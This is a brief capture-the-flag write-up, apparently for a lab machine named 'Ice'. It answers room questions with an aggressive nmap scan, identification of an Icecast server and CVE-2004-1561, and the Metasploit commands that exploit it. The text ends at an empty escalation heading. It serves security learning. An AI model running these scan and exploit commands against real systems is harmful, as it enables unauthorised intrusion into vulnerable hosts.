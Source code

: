 # Ice

## Recon
Just started off with an aggressive, all ports scan
`sudo nmap -A -vvv -p- -oN aggressivenmapallports {machine ip}`

### What port is Microsoft Remote desktop on?
Had to search the ports for this as the service name/version didn't specify (not sure if this is always the case?)
port 3389 had service 'ssl/ms-wbt-server?', which when googled found that it was microsoft remote desktop.

### What service is runing on port 8000?
Icecast streaming media server 

### What does nmap identify as the hostname of the machine? 
dark-pc

## Gain access
### What type of vulnerability is the cvedetails listing with a score of 7.5 for this version of icecast?
Couldn't actually find a listing of the version of icecast in my scan, but just tried a few vulnerabilities and found the one in question:
'execute code overflow'

### What's the cve number for this vulnerability?
CVE-2004-1561

### What's the metasploit path for this exploit?
`msfconsole`
`search icecast`
only one result, exploit/windows/http/icecast_header
`use 0`

### What is the only required setting that is blank for the exploit?
`show options`
ans is RHOSTS and the RPORT is already correct so we:
`set RHOSTS <machine ip>`
`exploit`

## Escalate
### 

